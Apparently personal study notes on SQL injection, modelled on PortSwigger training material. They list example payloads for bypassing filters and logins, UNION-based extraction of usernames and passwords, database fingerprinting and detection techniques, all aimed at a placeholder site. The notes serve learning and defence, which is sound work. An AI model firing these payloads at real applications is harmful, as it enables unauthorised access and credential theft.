 #server-side

- interfering with the queries that an application makes to its database
- usually to view data normally not visible
- data can be viewed, sometimes even modified or deleted

#### __Common SQL injection examples:__

1. __Retrieving hidden data__
- modify an SQL to return additional results
- eg:
	- website: `https://insecure-website.com/products?category=Gifts`
	- SQL command `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` to retrieve:
		- all details `*` from the `products` table where the category is `Gifts` and released is `1`
	- add double-dash sequence: `https://insecure-website.com/products?category=Gifts'--`
		- double-dash sequence == comment => it removes `released` category 
	- `https://insecure-website.com/products?category=Gifts'+OR+1=1--`
		- `'` ends `Gifts` string 
		- `+OR+1=1--` is all time true and rest of the command is comment

2. __Subverting application logic__
- change an query to intefere with the application logic
- eg:
	- `SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'`
	- changing the `username` and adding `'--` will bypass password verification

3. __UNION attack__
- retrieve data from different database table
- `UNION` keyword 
	- let's you execute additional `SELECT` query
	- appends the results to the original query
- for UNION attack to work 2 requirements must be met:
	- individual queries must return the same number of columns
	- data type in each column must be compatible between the individual queries
	- => _How many columns are being return from the original query?_
	- => _Which columns returned from the original query are suitable to hold the data types from injected query?_
- __determining the number of columns__
	1. series of `ORDER BY`
		- start with `' ORDER BY 1--` and increase the column index until error occures
	2. series of `UNION SELECT`
		- start with `' UNION SELECT NULL--` and keep adding `NULL`s until NOT error 
- __finding columns with a usefull data type__
	- with determined the number of columns, find out which columns has what data type
	-  `' UNION SELECT 'a',NULL,NULL,NULL--`
	-  `' UNION SELECT NULL,'a',NULL,NULL--`
	-  `' UNION SELECT NULL,NULL,'a',NULL--`
	-  `' UNION SELECT NULL,NULL,NULL,'a'--`
-  __using SQLi UNION attack to retrieve interesting data__
	-  after knowing the number of columns and their data type you can start retrieving
	-  eg. `' UNION SELECT username, password FROM users--`
-  __retrieving multiple values within a single column__
	-  with previous example you only get one line, if you want more:
	-  `' UNION SELECT username || '~' || password FROM users--`
	-  double pipe `||` is string concatenation (Oracle)
	-  separated by `'~'` - it's separator
	-  => ...;administrator~s3cure; wiener~peter;...

4. __Examining the database__
- extracting information about the version and structure of the database
- __database type and version__

Database type | Query 
------- | ------
Microsoft, MySQL | `SELECT @@version`
Oracle | `SELECT * FROM v$version`
PostgreSQL | `SELECT version()`

- __constents of database__
	- most DB types (except Oracle) have a information schema providing info about the DB
	- `SELECT * FROM information_schema.tables`
	- equivalent for Oracle: `SELECT * FROM all_tables`


5. __Blind SQL injection__
- query that is controlled is not returned in the application response
- the application does not return the results of the SQL query or the details of any DB errors within its response
- more complicated

#### __How to detect possible SQL injection?__
- submitting a single quote `'` and looking for errors or other abnormalities
- submitting some SQL specific syntax evaluating the original value of the entry point
- submitting a boolean value - `1=1` or `2=2` and looking for differences in response
- submitting payloads designed to triger time delays when executed within SQL query and looking for differences in the the time taken to respond
- submitting an QAT payloads

#### __SQLi in different parts of the query:
- `UPDATE` within updated values of `WHERE`
- `INSERT` within the inserted values
- `SELECT` within the table or column name
- `SELECT` within the `ORDER BY`

#### __stored SQLi__ 
- usually done by placing the input into a DB


### [Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)